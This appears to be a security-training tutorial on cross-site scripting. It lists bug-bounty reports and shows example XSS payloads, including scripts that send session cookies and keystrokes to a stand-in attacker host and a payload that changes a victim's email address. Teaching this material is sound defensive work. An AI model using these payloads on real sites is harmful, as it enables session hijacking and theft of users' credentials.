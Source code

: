 Cross-Site Scripting, better known as XSS in the cybersecurity community, is classified as an injection attack where malicious JavaScript gets injected into a web application with the intention of being executed by other users. In this room, you'll learn about the different XSS types, how to create XSS payloads, how to modify your payloads to evade filters, and then end with a practical lab where you can try out your new skills.

  

Cross-site scripting vulnerabilities are extremely common. Below are a few reports of XSS found in massive applications; you can get paid very well for finding and reporting these vulnerabilities.  

-   [XSS found in Shopify](https://hackerone.com/reports/415484)
-   [$7,500 for XSS found in Steam chat](https://hackerone.com/reports/409850)
-   [$2,500 for XSS in HackerOne](https://hackerone.com/reports/449351)
-   [XSS found in Infogram](https://hackerone.com/reports/283825)

## XSS payloads

**What is a payload?**

In XSS, the payload is the JavaScript code we wish to be executed on the targets computer. There are two parts to the payload, the intention and the modification.

  

The intention is what you wish the JavaScript to actually do (which we'll cover with some examples below), and the modification is the changes to the code we need to make it execute as every scenario is different (more on this in the perfecting your payload task).

  

Here are some examples of XSS intentions.

  

**Proof Of Concept:**

This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an alert box to pop up on the page with a string of text, for example:

  

`<script>alert('XSS');</script>`

  

**Session Stealing:**

Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.

  

`<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`  

  

**Key Logger:**

The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.

  

`<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`

  

**Business Logic:**

This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called `user.changeEmail()`. Your payload could look like this:

  

`<script>user.changeEmail('attacker@hacker.thm');</script>`

  

Now that the email address for the account has changed, the attacker may perform a reset password attack.